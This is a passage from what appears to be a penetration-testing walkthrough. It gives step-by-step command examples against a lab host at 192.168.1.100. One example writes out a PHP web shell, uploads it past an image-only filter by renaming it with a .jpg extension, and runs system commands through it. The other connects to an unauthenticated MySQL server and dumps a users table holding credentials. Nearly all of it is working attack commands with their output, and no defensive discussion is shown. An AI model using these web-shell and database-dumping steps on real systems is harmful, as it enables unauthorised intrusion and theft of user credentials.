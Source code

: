### Example 3: File Upload Web Shell
```bash
# Step 1: Identify upload functionality
gobuster dir -u http://192.168.1.100 -w wordlist.txt
# Output: /upload (Status: 200)

# Step 2: Create web shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Step 3: Upload attempt
curl -X POST -F "file=@shell.php" http://192.168.1.100/upload.php
# Output: Error: Only image files allowed

# Step 4: Bypass filter
mv shell.php shell.php.jpg
curl -X POST -F "file=@shell.php.jpg" http://192.168.1.100/upload.php
# Output: File uploaded successfully to /uploads/shell.php.jpg

# Step 5: Execute commands
curl "http://192.168.1.100/uploads/shell.php.jpg?cmd=whoami"
# Output: www-data

curl "http://192.168.1.100/uploads/shell.php.jpg?cmd=id"
# Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Example 4: Database Direct Access
```bash
# Step 1: MySQL enumeration
nmap --script mysql-info -p 3306 192.168.1.100
# Output: MySQL 5.5.62, no authentication required

# Step 2: Direct connection
mysql -h 192.168.1.100
# Output: Successfully connected to MySQL

# Step 3: Database enumeration
mysql> show databases;
# Output:
# +--------------------+
# | Database           |
# +--------------------+
# | information_schema |
# | mysql              |
# | webapp             |
# +--------------------+

mysql> use webapp;
mysql> show tables;
# Output:
# +------------------+
# | Tables_in_webapp |
# +------------------+
# | users            |
# | products         |
# | orders           |
# +------------------+

mysql> select * from users;
# Output: Complete user table with credentials
```
